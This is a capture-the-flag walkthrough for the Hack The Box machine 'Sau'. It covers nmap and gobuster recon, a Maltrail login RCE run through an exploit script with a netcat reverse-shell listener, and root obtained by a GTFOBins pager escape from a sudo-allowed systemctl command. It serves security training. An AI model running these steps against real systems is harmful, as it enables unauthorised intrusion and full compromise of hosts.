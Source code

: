 # Sau

######  Easy- x1foideo


## Initial Recon 

#### Hosts

```bash
sudo nano /etc/hosts
```
```
<IP> <Host Name>
```


#### Nmap

```bash
sudo nmap -sS -sV -p- <IP> -o sau_htb
```
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```


#### Web Enumeration

```bash
gobuster dir -e -u http://sau.htb:55555/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -b 400,401,402,403,404 -t 100
```
```
http://sau.htb:55555/ace                  (Status: 200) [Size: 7091]
http://sau.htb:55555/password             (Status: 200) [Size: 0]
http://sau.htb:55555/test                 (Status: 200) [Size: 0]
http://sau.htb:55555/web                  (Status: 200) [Size: 8700]
```


## Solution

#### Gathering Info

Surfing the internet we notice there are two possible Vulnerabilities for this machine.

1) Request-Basket Vuln (CVE-2023-27163) --> **SSRF**
   *http://sau.htb:55555*
2) Maltrail Vuln --> **RCE**
   *http://sau.htb:55555/ace*
   

What we are going to use is the *Maltrail Vuln*.

> The vulnerability exists in the login page and can be exploited via the `username` parameter


**Local Host**

In a terminal Window run

```bash
nc -nlvp 9999
```

In a terminal Window run the exploit

```bash
python3 exploit.py <Local IP> <PORT> http://sau.htb:55555/ace/login
```


#### User Flag

After getting the RCE, move to /home/puma

Get *User Flag*


#### Root Flag

First of all let's check if we can run some commands as sudo

```bash
sudo -l
```
```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

As showed we are able to run as sudo

```bash
sudo /usr/bin/systemctl status trail.service
```

Checking on *GTFOBins* we get that

> This invokes the default pager, which is likely to be [`less`](https://gtfobins.github.io/gtfobins/less/), other functions may apply.
> 
> !sh

So after running this command we are able to move to /root

Get *Root Flag*


#nmap #enumeration #gobuster #blackliststatuscode #sudo #gtfobins #reverseshell #maltrail #requestbasket #systemctl
